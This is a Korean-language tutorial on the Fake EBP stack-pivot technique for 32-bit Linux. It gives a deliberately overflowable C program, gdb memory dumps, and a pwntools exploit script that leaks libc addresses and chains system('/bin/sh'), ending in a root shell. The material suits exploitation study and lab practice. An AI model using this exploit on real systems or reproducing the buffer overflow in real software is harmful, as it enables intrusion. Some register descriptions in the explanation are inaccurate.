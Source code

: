 ## **Concept**

가짜 스택 프레임 포인터(Stack Frame Pointer)를 만들어 프로그램의 실행 흐름을 변경한다.(Fake EBP)  
Return Address 영역 까지만 덮어쓸 수 있을 경우 사용한다.  

#### **LEAVE**
1. EBP 레지스터에 저장된 값을 ESP에 저장
1. ESP 레지스터가 가리키는 Stack 영역에 값을 EBP 레지스터에 저장

#### **RET**
1. EBP 레지스터가 가리키는 Stack 영역의 값을 RIP 레지스터에 저장
1. JMP 명령을 통해 RIP에 저장된 영역으로 이동

```
; LEAVE
mov esp,ebp
pop ebp

; RET
pop eip
jmp eip
``` 

## **Proof of Concept**  

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o ff ff.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 70);
}
  
void main(){
    vuln();
}
```

"A"66+"B"4 입력 시 vuln() 함수의 Stack Frame과 Return address가 변조된다.

```
gdb-peda$ x/24wx $ebp
0xbfe98a78:	0x41414141	0x42424242	0xb7f233dc	0xbfe98aa0
```

변조된 메모리 구조.

```
gdb-peda$ x/24wx 0xbfc64e3a(&buf)
0xbfc64e3a:	0x41414141 <- dummy 0x42424242 <- &system 0x43434343 <- &exit 0x44444444 <- &/bin/sh

gdb-peda$ x/24 $ebp
0xbfc64e78:	0x46464646 <- &buf	0x47474747 <- leave	0xb7f243dc	0xbfc64ea0
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
import sys

p=process("./ff")
buf = int(p.recvline().split(' ')[3],16)
printf = int(p.recvline().split(' ')[3],16)

print('Laek buf    : ' + str(hex(buf)))
print('Laek printf : ' + str(hex(printf)))

libBase = printf - 0x4a670
system = libBase + 0x3bda0
exit = libBase + 0x2f9d0
binsh = libBase + 0x15ca0b
leave = 0x08048571

print('libBase : ' + str(hex(libBase)))
print('system  : ' + str(hex(system)))
print('exit    : ' + str(hex(exit)))
print('/bin/sh : ' + str(hex(binsh)))

exploit = "AAAA" + p32(system) + p32(exit) + p32(binsh) + "A"*46 + p32(buf) + p32(leave)
p.sendline(exploit)

p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/fakeebp# python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './fakeebp': pid 2319
Laek buf    : 0xbfd77fea
Laek printf : 0xb7e02670

libBase : 0xb7db8000
system  : 0xb7df3da0
exit    : 0xb7de79d0
/bin/sh : 0xb7f14a0b
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
<https://www.lazenca.net/pages/viewpage.action?pageId=12189944>


